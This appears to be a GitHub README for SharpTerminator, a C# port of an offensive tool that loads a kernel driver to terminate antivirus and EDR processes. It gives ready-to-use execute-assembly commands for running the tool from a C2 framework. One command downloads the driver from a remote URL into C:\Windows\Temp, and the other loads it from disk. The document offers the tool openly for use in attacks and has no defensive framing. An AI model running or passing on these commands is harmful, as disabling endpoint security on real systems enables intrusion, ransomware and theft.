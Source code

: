 # SharpTerminator

C# port of ZeroMemoryEx's Terminator, so all hail goes to him.

# Usage

You can download the driver from a remote URL using SharpTerminator and load it to terminate AV/EDR processes, or you can directly load it to the disk to perform the same operation.

When using Remote URL, the driver is downloaded to "C:\Windows\Temp" and then loaded from there.

In fact, there is no difference between them; if you don't want to use the upload function in your C2, you can use the other one.

Loading from remote url:
```
execute-assembly SharpTerminator.exe --url "http://remoteurl.com:80/Terminator.sys"
```
Loading from disk:
```
execute-assembly SharpTerminator.exe --disk "C:\path\to\driver\Terminator.sys"
```


### Download driver from remote url and terminate AV/EDR:

![sharpterminator-url](https://github.com/mertdas/SharpTerminator/assets/48562581/ded76930-780a-4ad0-bdf2-43f451be2e6c)


### Load driver from disk and terminate AV/EDR:

![sharpterminatsor-disk](https://github.com/mertdas/SharpTerminator/assets/48562581/ee37b11d-c803-48a9-ac97-0b0c17af1af7)

# Credit
ZeroMemoryEx https://github.com/ZeroMemoryEx/Terminator<br>
Spyboy :)

